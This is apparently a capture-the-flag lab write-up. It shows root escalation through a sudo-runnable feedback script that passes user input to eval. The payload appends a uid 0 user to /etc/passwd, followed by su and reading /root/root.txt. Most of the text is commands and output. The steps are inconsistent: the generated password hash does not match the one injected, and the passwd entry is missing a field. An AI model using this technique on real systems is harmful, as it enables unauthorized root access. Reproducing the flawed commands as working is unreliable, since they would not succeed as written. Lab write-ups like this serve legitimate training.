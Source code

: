 


With our input as `test > /tmp/test.txt`, the command passed to the eval becomes: `eval "echo test > /tmp/test.txt"` and we are able to write to the `/tmp/test.txt` file.

Using this, we can make an addition to the `/etc/passwd` file and manually add an user with `uid` and `gid` set to `0` ( same as the `root` user ).

First, creating a password hash.
```
mkpasswd -m md5crypt -s 
Password: 123 
$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0
```


Formatting the user information in the style of the `/etc/passwd`.
`   'fuckman:$1$WZEiJehy$jGyYPy9gcbptNKIf48rUv1:0:0:fuckman:/bin/bash' >> /etc/passwd    `


Now, writing it to the `/etc/passwd` file using the `/opt/NewComponent/feedback.sh` script.

```
deku@ip-10-10-143-172:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
'fuckman:$1$WZEiJehy$jGyYPy9gcbptNKIf48rUv1:0:0:fuckman:/bin/bash' >> /etc/passwd
It is This:
Feedback successfully saved.
```


Now check new user set or not:
`     cat /etc/passwd | grep fuckman    `


At last, we can switch to this new user using "su":
```
su fuckman
password: 123

cat /root/root.txt
```